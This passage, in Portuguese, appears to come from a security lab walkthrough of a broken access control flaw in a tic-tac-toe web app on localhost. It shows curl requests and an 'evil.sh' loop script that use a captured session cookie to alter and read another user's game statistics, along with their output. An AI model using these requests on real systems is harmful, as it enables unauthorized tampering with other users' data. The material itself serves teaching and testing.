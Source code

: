 Um invasor agora pode verificar se, usando outro nome de usuário nessa solicitação, ele pode modificar as estatísticas de outro usuário. Para isso, o parâmetro `user` é alterado para outro usuário conhecido, como `user2` por exemplo:

```sh
curl -s 'POST' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost.:10005/game' --data-binary 'user=user2&result=win'
```

```json
OK
```

Imaginando o pior cenário, um invasor poderia criar um script malicioso para enviar essa mesma solicitação quantas vezes pudesse, como pode ser exemplificado abaixo:

```sh
vi evil.sh
```

```sh
#!/bin/sh
#
# evil.sh - Add 100 losses to an user!

user="user2"
num=100
result="lose"
tictacsession="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM"

for i in `seq 1 $num`; do
    curl -s 'POST' -b "tictacsession=$tictacsession" 'http://localhost.:10005/game' --data-binary "user=$user&result=$result"
done
```

E execute:

```sh
chmod +x evil.sh && ./evil.sh
```

```sh
OKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOK
```

Para verificar se esse ataque realmente funcionou, o usuário mal-intencionado pode explorar a vulnerabilidade anterior para verificar as estatísticas do `user2` usando o seguinte comando:

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost.:10005/statistics/data?user=user2'
```
